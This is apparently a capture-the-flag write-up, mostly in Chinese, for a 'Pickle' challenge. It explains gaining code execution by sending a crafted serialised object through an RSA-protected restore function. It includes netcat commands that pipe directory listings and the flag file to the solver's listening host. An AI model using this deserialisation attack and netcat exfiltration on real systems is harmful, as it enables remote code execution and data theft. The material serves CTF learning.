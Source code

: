 # Pickle
`nc 140.113.194.85 49167`，[source code](spam.py)
 1. connect to server, everything is protected under **rsa**
 2. **backup password**  => **searlized** password to string => **encrypt string by rsa Public key**
 2. **restore password** => **desearlized** password from **rsa-encrypted string**
 3. **show key** => show **current rsa public key** for encryption

## Solve
 因為可以拿到rsa public key，restore password 會呼叫desearlized function
 * => 直接自己寫一個在desearlized時do_something() 的class => searlize => encrypted => restore password => do_something()！

### 那 do_something要做什麼呢？
 * 開啟shell？不行，因為開在對方螢幕上，我們用netcat溝通是看不到的
 * 那，要怎麼把東西傳到netcat我們這裡呢？
  * `nc 140.113.194.85 49167`，連到對方主機透過nc 溝通
 * 那**既然能連過去，當然對方也能連回來我們這裡**
  * 在自己電腦上用`nc -l 1234`開啟一個port做監聽
  * 在對方主機上做的事情，例如列所有目錄下的檔案`ls`之後用netcat傳給我們，我們會收到！
   * `ls | (nc xxx.xxx.xxx.xxxx 1234)`
   * `(cat flag) | (nc xxx.xxx.xxx.xxx 1234)`
 * [solve.py](solve.py)
